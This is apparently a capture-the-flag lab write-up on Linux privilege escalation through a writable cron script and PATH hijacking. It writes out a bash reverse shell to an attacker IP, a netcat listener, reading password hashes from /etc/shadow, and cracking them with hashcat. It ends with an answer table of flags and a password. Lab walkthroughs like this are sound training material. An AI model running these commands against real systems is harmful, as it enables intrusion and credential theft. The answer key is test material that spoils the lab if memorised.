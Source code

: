 
> add the following file into the `backup.sh` (replace the ip with your local machine vpn ip
```
bash -i >& /dev/tcp/10.17.48.110/4444 0>&1

cp /home/ubuntu/flag5.txt /home/karen/
chmod +r /home/karen/flag5.txt

```
> now make the `backup.sh` executable
```
chmod +x backup.sh
```

> start a netcat listener into your local machine and wait for sometime.
```
nc -lvnp 4444
```

> after getting a root shell into the netcat finding Matt's password hash 
```
cat /etc/shadow | grep matt | cut -d ":" -f 2
```
> now save the hash and use hashcat for cracking the password 
```
hashcat -m 1800 hash.txt /usr/share/wordlist/rockyou.txt
```

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| How many user-defined cron jobs can you see on the target system ? | 4 |
| What is the content of the flag5.txt file ? | THM-383000283 |
| What is Matt's password | 123456 |


## Privilege Escalation : PATH

> Machine IP : `10.10.221.238`

> finding the folder with write access 
```
find /home -type d -writable 2>/dev/null
```
> goto that folder and create a file called `thm` with the following code
```
cat /home/matt/flag6.txt
```
> now edit the PATH env variable with the following 
```
PATH=/home/murdoch:$PATH
export $PATH
```
> now just run the `test` file 
```
./test
```
